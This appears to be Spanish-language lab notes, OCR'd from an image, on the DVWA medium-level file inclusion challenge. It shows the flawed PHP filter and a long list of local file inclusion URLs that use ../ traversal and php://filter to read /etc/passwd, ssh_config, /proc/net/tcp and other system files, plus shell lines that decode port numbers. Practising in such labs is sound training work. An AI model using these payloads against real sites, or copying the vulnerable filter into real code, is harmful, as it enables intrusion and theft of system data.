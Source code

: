     2= Medium File Inclusion Source

    <?php

            // The page we wish to display
            $file = $_GET[ 'page' ];

            // Input validation
            $file = str_replace( array( "http://", "https://" ), "", $file );
            $file = str_replace( array( "../", "..\"" ), "", $file );
    ?>
    Para LFI, las palabras clave de recorrido de directorio ../../ siguen siendo válidas para usar este sitio web, por lo que podemos usar las mismas palabras que usamos desde un nivel bajo.
    
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=/etc/passwd
    #http://localhost/vulnerabilities/fi/?page=/etc/passwd
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=/etc/hostname
    #http://localhost/vulnerabilities/fi/?page=/etc/hostname
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=/etc/issue
    #http://localhost/vulnerabilities/fi/?page=/etc/issue
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=/etc/hosts
    #http://localhost/vulnerabilities/fi/?page=/etc/hosts
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=/etc/ssh/ssh_config
    #http://localhost/vulnerabilities/fi/?page=/etc/ssh/ssh_config
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=/etc/group
    #http://localhost/vulnerabilities/fi/?page=/etc/group
    *se puede leer "archivos locales"*
    *como vemos podemos saltar el filtro del "directorio PATH". Ejemplo: "../../../..//etc/passwd"*
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//etc/passwd
    #http://localhost/vulnerabilities/fi/?page=../../../../..//etc/passwd
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//etc/group
    #http://localhost/vulnerabilities/fi/?page=../../../../..//etc/group
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//etc/hosts
    #http://localhost/vulnerabilities/fi/?page=../../../../..//etc/hosts
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//etc/hostname
    #http://localhost/vulnerabilities/fi/?page=../../../../..//etc/hostname
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//etc/issue
    #http://localhost/vulnerabilities/fi/?page=../../../../..//etc/issue
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//etc/ssh/ssh_config
    #http://localhost/vulnerabilities/fi/?page=../../../../..//proc/net/fib_trie
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//proc/net/fib_trie
    #http://localhost/vulnerabilities/fi/?page=../../../../..//proc/net/sched_debug
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../..//proc/net/sched_debug
    #http://localhost/vulnerabilities/fi/?page=../../../../..//etc/ssh/ssh_config
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=etc/ssh/ssh_config
    ###IMPORTANTE A SEÑALAR EL proc/net/tcp ###
    #http://localhost/vulnerabilities/fi/?page=../../../../..//proc/net/tcp
    #http://localhost/vulnerabilities/fi/?page=php://filter/resource=../../../../../proc/net/tcp
    #cat port.txt | awk -F: '{print $3}' | awk '{print $1}' > puerto.txt
    #cat puerto.txt | sort -u | while read port; do echo "[+] Puerto $port -> $((0x$port))"; done
    #cat puerto.txt | sort -u | while read port; do echo "[+] Puerto $port -> $((16#$port))"; done
    